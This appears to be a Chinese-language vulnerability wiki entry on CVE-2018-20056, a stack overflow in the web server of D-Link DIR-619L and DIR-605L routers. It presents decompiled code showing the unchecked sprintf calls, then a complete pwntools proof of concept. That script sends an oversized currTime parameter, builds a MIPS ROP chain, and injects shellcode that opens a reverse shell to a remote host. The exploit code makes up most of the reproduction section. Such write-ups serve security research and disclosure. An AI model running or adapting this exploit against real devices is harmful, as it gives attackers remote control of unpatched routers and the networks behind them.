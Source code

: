 # （CVE-2018-20056）D-Link DIR-619L&605L 栈溢出漏洞

## 一、漏洞简介

D-LINK的DIR-619L Rev.B 2.06B1版本之前和DIR-605L Rev.B 2.12B1版本之前的设备，在/bin/boa文件的formLanguage函数中存在缓冲区溢出漏洞，在调用sprintf函数时没有对参数的长度进行检查，导致远程攻击者可以通过访问

```
http://[ip]/goform/formLanguageChange并指定currTime参数实现远程代码执行。
```

固件下载地址：ftp://ftp2.dlink.com/PRODUCTS/DIR-619L/REVB/

## 二、漏洞影响

D-LINK的DIR-619L Rev.B 2.06B1版本之前和DIR-605L Rev.B 2.12B1版本之前的设备。

## 三、复现过程

### 漏洞分析

在formLanguageChange函数中，通过websGetVar获取config.i18n_language，nextPage，currTime等参数。websGetVar通过malloc、memcpy将获取到的参数返回给formLanguageChange。formLanguageChange接下来调用了sprintf危险函数向local_f8变量中读入参数内容，并在下一步websRedirect使用了local_f8作为参数。

```
void formLanguageChange(undefined4 uParm1)
{
  int iVar1;
  char *pcVar2;
  undefined4 uVar3;
  FILE *__stream;
  char *__s1;
  char local_f8 [200];
  char acStack48 [24];
  undefined4 local_18;
  int local_14;

  __s1 = (char *)websGetVar(uParm1,"config.i18n_language",&DAT_004ac874);
  ……
  apmib_set(0x129,&local_18);
  __s1 = (char *)websGetVar(uParm1,"nextPage",&DAT_004ac874);
  if (*__s1 == 0) {
    uVar3 = websGetVar(uParm1,"currTime",&DAT_004ac874);//获取currTime参数
    __s1 = "/index.asp";
  }
  else {
    ……
  }
  sprintf(local_f8,"%s?t=%s",__s1,uVar3);//危险函数sprintf直接读入字符
LAB_00460b34:
  websRedirect(uParm1,local_f8);
  ……
  return;
}
```

websRedirect主要调用`send_r_moved_perm`，这个函数调用了两次危险函数sprintf，分别向acStack224(sp+0x19f8-0xe0)和acStack480(sp+0x19f8-0x1e0)中输入字符。

```
undefined4 websRedirect(int iParm1,char *pcParm2)
{
  char *pcVar1;

  *(undefined4 *)(iParm1 + 0x50) = 0;
  pcVar1 = strstr(pcParm2,"/apply_setting.asp");
  if (pcVar1 != (char *)0x0) {
    apply_setting_redirect = apply_setting_redirect + 1;
  }
  send_r_moved_perm(iParm1,pcParm2);
  return 0;
}

void send_r_moved_perm(int iParm1,char *pcParm2)

{
  undefined4 uVar1;
  char *pcVar2;
  undefined auStack6624 [6144];
  char acStack480 [256];
  char acStack224 [200];

  ……
  if (pcVar2 == (char *)0x0) {
    if (*pcParm2 == '/') {
      pcParm2 = pcParm2 + 1;
    }
    sprintf(acStack224,"http://%s/%s",*(undefined4 *)(iParm1 + 0x70),pcParm2);
    pcParm2 = acStack224;
  }
  sprintf(acStack480,

          "<html><head></head><body>\r\n\t\tThis document has moved to a new <ahref=\"%s\">location</a>.\r\n\t\tPlease update your documents to reflect the newlocation.\r\n\t\t</body></html>\r\n"
          ,pcParm2);
  ……s
  return;
}
```

通过第二两个sprintf修改返回地址，构造ROP链，导致程序控制流被劫持。（也可以通过两个sprintf的配合来实现栈的迁移，漏洞作者是这么实现的）

### 漏洞复现

#### poc

```
import requests
import sys
import struct
from pwn import *
#context.log_level='debug'
context.arch='mips'
context.endian='big'
ip='192.168.75.150'

def syscmd1(a):
    p=remote(ip,80)
    z=len(a)
    print "[+]len:"+str(z)
    payload=''
    payload+='POST /goform/formLanguageChange HTTP/1.1\r\n'
    payload+='Host: '+ip+'\r\n'
    payload+='Connection: keep-alive\r\n'
    payload+='Accept-Encoding: gzip, deflate\r\n'
    payload+='Accept: */*\r\n'
    payload+='User-Agent: python-requests/2.18.4\r\n'
    payload+='Content-Length: '+str(z+9)+'\r\n'
    payload+='Content-Type: application/x-www-form-urlencoded\r\n'
    payload+='\r\n'
    payload+='currTime='
    payload+=a+'\r\n'
    p.send(payload)
    p.recvuntil('</html>')
    #raw_input()
    p.close()

#base address of libc.so.0
base1=0x2ab88000
###shellcode
sc=struct.pack(">I",0x24060101)
sc+=struct.pack(">I",0x04d0ffff)
sc+=struct.pack(">I",0x2806ffff)
sc+=struct.pack(">I",0x27bdffe0)
sc+=struct.pack(">I",0x27e41001)
sc+=struct.pack(">I",0x2484f023)
sc+=struct.pack(">I",0xafa4ffe8)
sc+=struct.pack(">I",0xafa0ffec)
sc+=struct.pack(">I",0x27a5ffe8)
sc+=struct.pack(">I",0x24020fab)
sc+=struct.pack(">I",0xafa00108)
sc+=struct.pack(">I",0x0101010c)
sc+="/bin//sh\x00"

shellcode =''
shellcode += asm(shellcraft.connect('192.168.75.149',5555))
shellcode += asm(shellcraft.dup2(5,0))
shellcode += asm(shellcraft.dup2(5,1))
shellcode += sc

s0=struct.pack(">I",base1+0x2C794)
s1=struct.pack(">I",base1+0x2C794)### rop2:move $t9,$s2;...;jr $t9 
s2=struct.pack(">I",base1+0x24b70)### rop3:sleep(1)
s3=struct.pack(">I",base1+0x2bdac)### rop5:addiu $a0,$sp,0x18;...;lw $ra,0x30;jr $ra
s4=struct.pack(">I",base1+0x2bdac)
###rop
payload1='a'*0x167+s0+s1+s2+s3
payload1+=struct.pack(">I",base1+0x25714)  ###rop1: li $a0,1;move $t9,$s1;jalr $t9;ori $a1,$s0,2
payload1+='b'*0x1c+s0+s1+s2+s3+s4
payload1+=struct.pack(">I",base1+0x5f98)  ###rop4:lw $ra,0x1c($sp);...;jr $ra
payload1+='c'*0x1c
payload1+=s3
payload1+='d'*0x18
payload1+=struct.pack(">I",0x24910101) ###rop7 addiu $s1,$a0,257;addi $s1,$s1,-257;move $t9,$s1;jalr $t9
payload1+=struct.pack(">I",0x2231feff)
payload1+=struct.pack(">I",0x0220c821)
payload1+=struct.pack(">I",0x0320f809)
payload1+=struct.pack(">I",0x2231feff)
payload1+=struct.pack(">I",0x2231feff)
payload1+=struct.pack(">I",base1+0x2bda0) ###rop6:mov $t9,$a0;...;jalr $t9
payload1+='e'*0x20+shellcode
if __name__ == "__main__":
    syscmd1(payload1)
```

利用效果:

![image](/Users/aresx/Documents/VulWiki/IOT%E5%AE%89%E5%85%A8/D-Link/.resource/%EF%BC%88CVE-2018-20056%EF%BC%89D-Link%20DIR-619L&605L%20%E6%A0%88%E6%BA%A2%E5%87%BA%E6%BC%8F%E6%B4%9E/media/13-20201014111355334.png)

![image](/Users/aresx/Documents/VulWiki/IOT%E5%AE%89%E5%85%A8/D-Link/.resource/%EF%BC%88CVE-2018-20056%EF%BC%89D-Link%20DIR-619L&605L%20%E6%A0%88%E6%BA%A2%E5%87%BA%E6%BC%8F%E6%B4%9E/media/14-20201014111355336.png)
